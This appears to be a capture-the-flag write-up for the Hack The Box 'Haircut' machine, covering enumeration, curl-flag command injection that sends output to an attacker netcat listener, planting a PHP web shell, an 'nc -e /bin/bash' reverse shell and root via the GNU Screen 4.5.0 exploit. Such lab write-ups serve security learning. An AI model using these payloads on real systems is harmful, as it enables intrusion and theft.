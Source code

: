 # htb-haircut
This is my [Hack the box](https://www.hackthebox.eu/)'s Haircut machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.24

Difficulty: Medium

## Enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.24`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/haircut# nmap -sC -sV -oN haircut.nmap 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-24 13:39 EDT
Nmap scan report for 10.10.10.24
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.55 seconds
```

The web app running on port 80 is just an image.

Initial directories enumeration with the common list:

```
root@kali:~/htb/haircut# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u ${HAIRCUT}
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 13:55:47 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
===============================================================
2020/05/24 13:56:26 Finished
===============================================================
```

Found `/uploads` that is referenced by the image that appears on the page already.

After checking several lists and ways of enumerating directories, finally this one got `/exposed.php`:

```
root@kali:~/htb/haircut# gobuster dir --url 10.10.10.24 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/24 15:23:49 Starting gobuster
===============================================================
/uploads (Status: 301)
/exposed.php (Status: 200)
```

The page `/exposed.php` has a text input, and when passing a URL it displays on screen the result of curling it. I tried to inject some command but some symbols/keywords were blocked e.g. &, ;, |, python and nc. Curl flags are not blocked, though.

Checking `curl` man's page for ways to get more information about the system or executing arbitrary code, I thought of sending information through body data of a curl request sent to a `nc` listener on the attacker machine.

Set up listener from attacker: 
```
nc -lvp 4444
```

Commands now can be executed from the input as follows, and the result of the executed command will be passed as data to the listener:
```
$ATTACKERIP:4444 -d "`command goes here`"
```

So, the next couple of commands I'll list here will use this trick.

If command is `whoami`, the listener will print `www-data`.

It is possible to get the user flag already from here the same way:
```
cat /home/maria/Desktop/user
```

It may be a good idea to try to get a more steady shell. See what files/folders are present:
```
ls -alh
```

In the listener:
```
drwxr-xr-x 3 root     root     4.0K May 19  2017 .
drwxr-xr-x 3 root     root     4.0K May 16  2017 ..
-rwxr-xr-x 1 root     root     114K May 15  2017 bounce.jpg
-rwxr-xr-x 1 root     root     164K May 15  2017 carrie.jpg
-rwxr-xr-x 1 root     root      921 May 15  2017 exposed.php
-rwxr-xr-x 1 root     root      141 May 15  2017 hair.html
-rwxr-xr-x 1 root     root      144 May 15  2017 index.html
-rwxr-xr-x 1 root     root     133K May 15  2017 sea.jpg
-rwxr-xr-x 1 root     root      223 May 15  2017 test.html
drwxr-xr-x 2 www-data www-data 4.0K May 22  2017 uploads
```

It seems `uploads` may be a good place where to place a web shell. I'm going to use a PHP web shell called `Predator.php` present in this repo https://github.com/JohnTroony/php-webshells.git. The first step is to make the shell "curleable" by exposing it through an http server in the attacker:
```
$ cd php-webshells
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

And now from the input in `/exposed.php` we curl it to uploads leveraging the `-o` (output file) flag (this time without the trick to execute commands from the input as we are just using curl as it is to fetch the shell):
```
10.10.14.23:8000/Predator.php -o uploads/Predator.php
```

The shell is accessible from `uploads/Predator.php`, so let's set up a reverse shell using it.

Set `nc` listener in the attacker to handle the reverse shell:
```
nc -lvp 4444
```

The web shell allows the user to execute in the target system. Connect to the attacker as follows:
```
nc $IP_ATTACKER 4444 -e /bin/bash
```

Upgrade shell to more interactive one:
```
python3 -c "import pty; pty.spawn('/bin/bash');"
```

By running `LinEnum.sh` (copied to the target machine by setting up a Python http server as before), it can be noticed that there's a suspicious SUID executable in /usr/bin/screen-4.5.0, that turns out to be a vulnerable version that allows to escalate privileges:
```
$ searchsploit screen 4.5.0
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation              | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)        | linux/local/41152.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I'd encourage you to first check the PoC to see what's going on, basically it is possible to create a file owned by root that can be edited by our group (www-data in this case) which can be used for privilege escalation.

When trying to execute the script (first exploit listed) it's noticeable that it needs some manual action to be functional:
- Change the way in which the script creates the .c files. It does is using `cat` and it does not work properly and adds more lines to the file that is not C code and naturally fails afterwards.
- ```gcc``` fails to compile as it does not find `cc1`. By doing `locate cc1` we see this is its location: `/usr/lib/gcc/x86_64-linux-gnu/5`. Adding that to the path and trying again did the trick.

After completing these manual actions, a root shell is popped after executing the script:
```
# whoami
whoami
root
```

